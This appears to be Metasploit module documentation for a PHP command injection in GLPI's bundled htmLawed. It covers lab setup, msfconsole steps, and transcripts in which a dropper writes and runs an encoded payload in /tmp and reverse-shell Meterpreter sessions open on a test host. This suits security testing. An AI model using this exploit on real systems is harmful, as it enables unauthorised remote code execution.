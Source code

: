 ## Vulnerable Application

GLPI versions 10.0.2 and below expose a vulnerable version on htmLawed which
has a php command injection opportunity.

### Installation Instructions
Taken verbatim from https://www.imaginelinux.com/install-glpi-ubuntu/
Using  Ubuntu x64 Desktop 20.04.1
1. ```sudo apt install apache2 php7.4 php7.4-curl php7.4-zip php7.4-gd php7.4-intl \
   php7.4-intl php-pear php7.4-imagick php-bz2 php7.4-imap php-memcache php7.4-pspell \
   php7.4-tidy php7.4-xmlrpc php7.4-xsl php7.4-mbstring php7.4-ldap php-cas php-apcu \
   libapache2-mod-php7.4 php7.4-mysql mariadb-server```
2. `sudo systemctl status apache2`
3. `sudo systemctl status mariadb`
4. `sudo mysql_secure_installation` # Answer 'yes' to everything
5. `sudo mysql -u root -p`
6. `CREATE DATABASE glpidb;`
7. `GRANT ALL PRIVILEGES ON glpidb.* TO 'user'@'localhost' IDENTIFIED BY 'password';`
8. `FLUSH PRIVILEGES;`
9. `exit;`
10. Grab a vulnerable version here: https://github.com/glpi-project/glpi/releases/
11. Extract that vulnerable version and move the files to `/var/www/html/glpi/`
12. `sudo chmod 755 -R /var/www/html/`
13. `sudo chown www-data:www-data -R /var/www/html/`
14. Create a virtual host if you want `sudo nano /etc/apache2/sites-available/glpi.conf`
```<VirtualHost *:80>
   ServerAdmin admin@your_domain.com
   DocumentRoot /var/www/html/glpi
   ServerName your-domain.com

   <Directory /var/www/html/glpi>
        Options FollowSymlinks
        AllowOverride All
        Require all granted
   </Directory>

   ErrorLog ${APACHE_LOG_DIR}/your-domain.com_error.log
   CustomLog ${APACHE_LOG_DIR}/your-domain.com_access.log combined

</VirtualHost>
```

15. `sudo ln -s /etc/apache2/sites-available/glpi.conf /etc/apache2/sites-enabled/glpi.conf`
16. `sudo a2enmod rewrite`
17. `sudo systemctl restart apache2`
18. Visit the new server at http://<yourhost>/glpi
19. Follow setup instructions on screen

## Options
No extra options to be set, but make sure the uripath is correct

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/linux/http/glpi_htmlawed_php_injection`
* Do: `set upripath <uripath>`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: **Verify** you get a session

## Scenarios
### Using GLPI 9.5.9 running on Ubuntu 20.04.1 x64
#### Linux Dropper
```
msf exploit(linux/http/glpi_htmlawed_php_injection) > show options

Module options (exploit/linux/http/glpi_htmlawed_php_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.5.132.190     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /glpi/glpi/      no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.109     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper)


msf exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.5.135.109:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] token = 4578e2880dfc8091a10c38ea60ead228
[*] sid = vitn15j8j9f0lljrfu7daq9es8
[+] The target appears to be vulnerable.
[*] Executing Linux (Dropper) for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["printf '\\177\\105\\114\\106\\2\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\76\\0\\1\\0\\0\\0\\170\\0\\100\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\70\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\7\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\372\\0\\0\\0\\0\\0\\0\\0\\174\\1\\0\\0\\0\\0\\0\\0\\0\\20\\0\\0\\0\\0\\0\\0\\110\\61\\377\\152\\11\\130\\231\\266\\20\\110\\211\\326\\115\\61\\311\\152\\42\\101\\132\\262\\7\\17\\5\\110\\205\\300\\170\\121\\152\\12\\101\\131\\120\\152\\51\\130\\231\\152\\2\\137\\152\\1\\136\\17\\5\\110\\205\\300\\170\\73\\110\\227\\110\\271\\2\\0\\21\\134\\12\\5\\207\\155\\121\\110\\211\\346\\152\\20\\132\\152\\52\\130\\17\\5\\131\\110\\205\\300\\171\\45\\111\\377\\311\\164\\30\\127\\152\\43\\130\\152\\0\\152\\5\\110\\211\\347\\110\\61\\366\\17\\5\\131\\131\\137\\110\\205\\300\\171\\307\\152\\74\\130\\152\\1\\137\\17\\5\\136\\152\\176\\132\\17\\5\\110\\205\\300\\170\\355\\377\\346'>>/tmp/bLaTw ; chmod +x /tmp/bLaTw ; /tmp/bLaTw ; rm -f /tmp/bLaTw"]
[*] execute_command
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.5.132.190
[*] Command Stager progress - 100.00% done (809/809 bytes)
[*] Meterpreter session 4 opened (10.5.135.109:4444 -> 10.5.132.190:36378) at 2022-10-19 17:05:28 -0500

meterpreter > sysinfo
Computer     : 10.5.132.190
OS           : Ubuntu 20.04 (Linux 5.15.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```

#### Unix Command
```
[*] 10.5.132.190 - Meterpreter session 4 closed.  Reason: Died
smsf exploit(linux/http/glpi_htmlawed_php_injection) > set target 0
target => 0
msf exploit(linux/http/glpi_htmlawed_php_injection) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.5.135.109:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] token = 154f788cf9a685dac8753df78c6c3a1c
[*] sid = 1mcp7n5vq9v6tnqlbm324qk9ce
[+] The target appears to be vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] execute_command
[*] Sending stage (40168 bytes) to 10.5.132.190
[*] Meterpreter session 5 opened (10.5.135.109:4444 -> 10.5.132.190:39622) at 2022-10-19 17:06:36 -0500

meterpreter > sysinfo
Computer        : ubuntu-20041
OS              : Linux 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```

